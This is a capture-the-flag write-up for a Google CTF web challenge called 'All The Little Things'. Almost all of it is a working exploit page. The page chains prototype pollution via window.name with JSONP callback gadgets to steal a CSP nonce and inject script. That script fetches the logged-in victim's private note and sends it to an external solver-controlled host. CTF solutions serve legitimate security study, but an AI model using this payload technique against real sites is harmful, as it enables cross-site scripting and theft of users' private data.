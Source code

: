 ALL THE LITTLE THINGS
298pt
web icon
I left a little secret in a note, but it's private, private is safe.

Note: TJMike🎤 from Pasteurize is also logged into the page.

https://littlethings.web.ctfcompetition.com
Solved by (20):



##Solution


```
<!DOCTYPE html>
<html>
<head>

	<script>
x= `
	<iframe name=x title='fetch(&#x22;/note&#x22;).then(x=>x.text()).then(x=>top.location=&#x22;//ctf.s1r1us.ninja?html=&#x22;+btoa(encodeURIComponent(x)))' id=y srcdoc='<script><\/script>'></iframe>
	<iframe srcdoc='<script src=https://littlethings.web.ctfcompetition.com/theme?cb=top.x.nonce=top.document.body.lastElementChild.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.nonce.valueOf ><\/script>'></iframe>
	<iframe srcdoc='<script src=https://littlethings.web.ctfcompetition.com/theme?cb=top.x.document.head.lastElementChild.nonce=top.x.nonce.valueOf ><\/script>'></iframe>
	<iframe srcdoc='<script src=https://littlethings.web.ctfcompetition.com/theme?cb=top.x.document.head.lastElementChild.innerHTML=top.y.title.valueOf ><\/script>'></iframe>
`;
		window.name = `{"x": ${JSON.stringify(x)}, "verbose": true, "showAll": true, "keepDebug": true, "__proto__": {"theme":{"cb":"document.body.lastElementChild.previousElementSibling.innerHTML=window.name.valueOf"}}}`;
location = 'https://littlethings.web.ctfcompetition.com/settings?__debug__';

	</script>
<body>
  </body>
</html>

```

